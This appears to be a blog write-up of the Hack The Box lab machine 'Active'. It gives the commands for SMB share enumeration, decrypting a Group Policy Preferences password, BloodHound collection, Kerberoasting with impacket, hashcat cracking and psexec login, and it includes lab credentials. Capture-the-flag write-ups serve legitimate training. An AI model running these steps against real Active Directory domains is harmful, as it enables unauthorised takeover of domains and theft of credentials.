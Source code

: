 ```yaml
---
layout: post
title: My first writeup! Hack The Box, Active
tags: [Hack The Box, Active Directory, Bloodhound, Hashcat, GPP]
---
```

![logo](/boxes/htb/active/activeDirectory.PNG)

### i. Port Scan
![nmap portscan](/boxes/htb/active/nmap.PNG)
### ii. Enumeration
SMB ports were listed open on the nmap scan. Let's check if any shares are available with smbclient and smbmap.
```
smbclient -L 10.10.10.100
smbmap -H 10.10.10.100
```
smbclient:   
![smbclient](/boxes/htb/active/smbclient.PNG)

smbmap:  
![smbmap](/boxes/htb/active/smbmap.PNG)

Smbmap reveals a file share called Replication with read only permissions. Smbmap can be used to list the contents of the Replication directory:
```
smbmap -R Replication -H 10.10.10.100
```
Looking through the contents of the Replication directory there is a file called Groups.xml. This is a group policy file where local account information is typically stored for older Active Directory implementations.

![ReplicationFiles](/boxes/htb/active/groupsxml.PNG)

To download the file we use:
```
smbmap -R Replication -H 10.10.10.100 -A Groups.xml -q
```
Opening and reading the Groups.xml file, an account `SVC_TGS` and a encrypted password `edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH` was found. 

![groupsxmlhash](/boxes/htb/active/grouphash.PNG)


The password is encrypted with a known key:

https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be  
![msftknownkey](/boxes/htb/active/aes key.jpg)

To decrpyt the password, we use gpp-decrpyt:  

![gppdecrypt](/boxes/htb/active/gppdecrypt.PNG)

The decrypted hash is `GPPstillStandingStrong2k18`. Using the credentials we found we enumerate more shares.
```
smbmap -d active.htb -u svc_tgs -p GPPstillStandingStrong2k18 -H 10.10.10.100
```
![moreshares](/boxes/htb/active/moreshares.PNG)

Logging in and enumerating these shares lead to the user flag under the `SVC_TGS\Desktop\` directory.

Now that we have credentials, let's use Bloodhound on the box. We switch to a Windows VM and run the following command:
```
runas /netonly /user:active.htb\svc_tgs cmd
```
Make sure to check your DNS settings on your network adapter and set it to 10.10.10.100. 

Run sharphound with the following command to gather information to use in Bloodhound:
```
sharphound.exe -c all -d active.htb --domaincontroller 10.10.10.100
```
A zip file should have been created with the infomartion to import into Bloodhound. Drag and drop the zip file created from into the user interface of Bloodhound to import the information. Checking for domain admin did not reveal anything. Checking for kerberoasting, the user `ADMINISTRATOR` is available for this attack.
![kerberoasting](/boxes/htb/active/kerberoasting.PNG)

Using GetUserSPN.py from impacket we will grab the hash of `ADMINISTRATOR`
```
GetUserSPN.py -request -dc-ip 10.10.10.100 active.htb/svc_tgs
```
![adminhash](/boxes/htb/active/getUserSPN.PNG)

We copy the hash into a file and use hashcat to crack the hash via the following command:
```
hashcat -m 13100 hash.txt rockyou.txt 
```
![crackedhash](/boxes/htb/active/adminpw.PNG)

The Administrator password is: `Ticketmaster1968`

Now we can use psexec and log into the box and get the root flag
```
psexec.py active.htb/Administrator@10.10.10.100
```
![rootflag](/boxes/htb/active/rootflag.PNG)
